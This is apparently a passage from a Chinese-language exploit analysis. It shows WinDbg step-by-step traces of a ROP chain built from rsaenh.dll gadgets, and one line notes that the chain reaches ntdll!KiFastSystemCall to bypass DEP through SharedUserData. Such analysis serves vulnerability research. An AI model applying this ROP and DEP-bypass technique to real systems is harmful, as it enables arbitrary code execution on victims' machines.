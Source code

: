 eax=680313c0 ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=68016086 esp=680313c0 ebp=00fff4d0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
rsaenh!_alloca_probe+0x46:
68016086 8b4004          mov     eax,dword ptr [eax+4] ds:0023:680313c4=68006e4f
0:009> p
eax=68006e4f ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=68016089 esp=680313c0 ebp=00fff4d0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
rsaenh!_alloca_probe+0x49:
68016089 50              push    eax
0:009> p//ROP Chain
eax=68006e4f ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=6801608a esp=680313bc ebp=00fff4d0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
rsaenh!_alloca_probe+0x4a:
6801608a c3              ret
0:009> p
eax=68006e4f ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=68006e4f esp=680313c0 ebp=00fff4d0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
rsaenh!CPEncrypt+0x3b:
68006e4f 5e              pop     esi
0:009> p
eax=68006e4f ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=680313c0 edi=680313c0
eip=68006e50 esp=680313c4 ebp=00fff4d0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
rsaenh!CPEncrypt+0x3c:
68006e50 5d              pop     ebp
0:009> p
eax=68006e4f ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=680313c0 edi=680313c0
eip=68006e51 esp=680313c8 ebp=68006e4f iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
rsaenh!CPEncrypt+0x3d:
68006e51 c22000          ret     20h
0:009> p
eax=68006e4f ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=680313c0 edi=680313c0
eip=68006e4f esp=680313ec ebp=68006e4f iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
rsaenh!CPEncrypt+0x3b:
68006e4f 5e              pop     esi
</pre>
<p nodeIndex="114">经过一系列ROP之后，会进入KiFastSystemCall，这是利用SharedUserData bypass DEP的一环。</p>
<pre class="prettyprint" nodeIndex="115">
0:009> p
eax=0000008f ebx=7ffe0300 ecx=680313c0 edx=00fff4f8 esi=68031460 edi=680124e3
eip=680124e3 esp=68031400 ebp=6e6f3176 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
rsaenh!HmacCheck+0x2c3:
680124e3 ff23            jmp     dword ptr [ebx]      ds:0023:7ffe0300={ntdll!KiFastSystemCall (7c8285e8)}
0:009> p
eax=0000008f ebx=7ffe0300 ecx=680313c0 edx=00fff4f8 esi=68031460 edi=680124e3
eip=7c8285e8 esp=68031400 ebp=6e6f3176 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
ntdll!KiFastSystemCall:
7c8285e8 8bd4            mov     edx,esp
0:009> p
eax=0000008f ebx=7ffe0300 ecx=680313c0 edx=68031400 esi=68031460 edi=680124e3
eip=7c8285ea esp=68031400 ebp=6e6f3176 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
ntdll!KiFastSystemCall+0x2:
7c8285ea 0f34            sysenter
0:009> p